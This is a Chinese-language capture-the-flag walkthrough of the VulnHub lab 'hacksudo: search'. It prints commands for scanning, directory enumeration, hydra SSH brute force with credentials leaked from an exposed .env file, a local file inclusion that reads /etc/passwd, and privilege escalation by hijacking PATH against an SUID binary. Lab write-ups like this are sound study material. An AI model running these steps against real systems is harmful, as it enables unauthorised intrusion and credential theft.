



## 复盘*

## 靶机地址

[hacksudo: search ~ VulnHub](https://www.vulnhub.com/entry/hacksudo-search,683/)





## 信息收集


### 主机探活

（这里已知靶机ip为：192.168.56.147）

```
nmap -sP 192.168.56.0/24
```


确定靶机ip：192.168.56.147


### nmap扫描目标主机开放端口

```
nmap -sS -sV -p- -Pn 192.168.56.147
```


开放了：

- 22 ssh服务
- 80 http服务


### 访问192.168.56.147


```
A pretty useless search engine
一个相当无用的搜索引擎
```


### dirsearch进行目录扫描

```
dirsearch -u 192.168.56.147 
```


存在

- .env
- account
- assets
- images
- LICENSE
- README.md
- robots.txt
- search.php


分别访问


### 访问.env


- 将base64保存到tmp文件，并解码


- 存在mysql数据库，且用户名为hiraman，密码为MyD4dSuperH3r0!
- 将数据库账号密码分别保存到user.txt和passwd.txt

- hacksudo，HackSudoSearch可能也是用户名，保存到user.txt

  


### 利用hydra爆破

```
hydra -L user.txt -P passwd.txt ssh://192.168.56.147
```


成功爆破出

```
hacksudo：MyD4dSuperH3r0!
```


### ssh登录

```
ssh hacksudo@192.168.56.147
```


成功


（但是后面复盘发现其实跳过了很多步骤，目录扫描有问题）


### 访问robots.txt


无关键信息


### 利用gobuster进行目录扫描

```
gobuster dir -u 192.168.56.147 -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php
```


得到search1.php


### 访问search1.php


其中Contact页面下的网址存在提示FUZZ


### 利用wfuzz爆破参数

```
wfuzz -u http://192.168.56.147/search1.php?FUZZ=../../../etc/passwd -w /usr/share/wfuzz/wordlist/general/common.txt --hw 288
```



得到参数me


关于wfuzz的参数：

```
--hw 288 即过滤Word列的值为288的内容
（类似于bp爆破时过滤不同的length）
当不进行任何过滤时，wfuzz会将所有的结果输出，我们很难找到关键
```


### 尝试利用文件包含漏洞读取/etc/passwd


将/etc/passwd保存到本地tmp文件下


### 处理tmp文件

将所有用户名过滤出来并追加到user.txt文件下

```
awk -F: '{if($3 >= 1000) print $1}' tmp >> user.txt
cat user.txt
```


### 去重user.txt文件


### 重新利用hydra爆破ssh服务




### ssh登录


## 提权


### 得到第一个flag

```
ls
cat user.txt
```


### 查看search目录

```
cd search
ls -al
cd admin
ls
cat root.sh
```


进入admin目录

存在root.sh脚本文件

但是看不懂


### 进入tools目录

```
ls -al
```


其中searchinstall存在suid位

searchinstall.c可能是其源文件


### 查看searchinstall.c文件


即执行install命令

```
which install
```


### 劫持环境变量提权

```
touch /tmp/install
chmod +x /tmp/install
echo '/bin/bash' >> /tmp/install
```


首先在tmp目录下创建install文件，赋予执行权限，并追加“/bin/bash”，即利用该命令打开bash


### 将tmp目录添加到$PATH的开头

```
export PATH=/tmp:$PATH
./searchinstall
whoami
```


### 得到第二个flag

